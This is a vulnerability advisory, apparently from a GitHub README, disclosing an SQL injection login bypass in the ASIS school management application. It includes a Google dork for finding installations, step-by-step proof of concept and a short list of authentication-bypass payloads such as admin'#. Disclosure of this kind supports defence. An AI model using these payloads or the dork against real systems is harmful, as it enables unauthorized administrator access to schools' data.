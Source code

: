 # ASIS | Aplikasi Sistem Sekolah Using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-XXXXX](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-XXXXX)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-XXXXX) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 & 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as admin'# and password as xyz
* Step 3 – Click LOGIN and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
